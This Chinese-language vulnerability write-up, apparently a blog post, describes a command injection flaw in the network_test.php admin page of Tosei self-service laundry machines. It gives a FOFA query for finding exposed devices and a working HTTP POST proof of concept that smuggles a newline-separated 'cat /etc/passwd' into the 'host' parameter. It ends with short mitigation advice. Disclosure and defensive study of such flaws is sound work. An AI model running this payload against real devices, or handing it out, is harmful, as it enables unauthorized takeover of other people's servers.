


# Tosei 自助洗衣机 network\_test.php RCE漏洞复现

### 0x01 产品简介

Tosei 自助洗衣机 是日本 Tosei 公司的一个产品。

### 0x02 漏洞概述

Tosei 自助洗衣机 web 管理端存在[安全漏洞](https://so.csdn.net/so/search?q=%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，攻击者利用该漏洞可以通过 network\_test.php 的命令执行,在服务器任意执行代码，获取服务器权限，进而控制整个服务器。

### 0x03 复现环境

FOFA：body="tosei\_login\_check.php"



### 0x04 漏洞复现

PoC

```cobol
POST /cgi-bin/network_test.php HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

host=%0acat${IFS}/etc/passwd%0a&command=ping
```

### 0x05 修复建议

官方暂未修复该漏洞，请用户联系厂商修复漏洞：https://www.tosei-corporation.co.jp/product-coin/

通过防火墙等安全设备设置访问策略，设置白名单访问。

如非必要，禁止公网访问该系统。
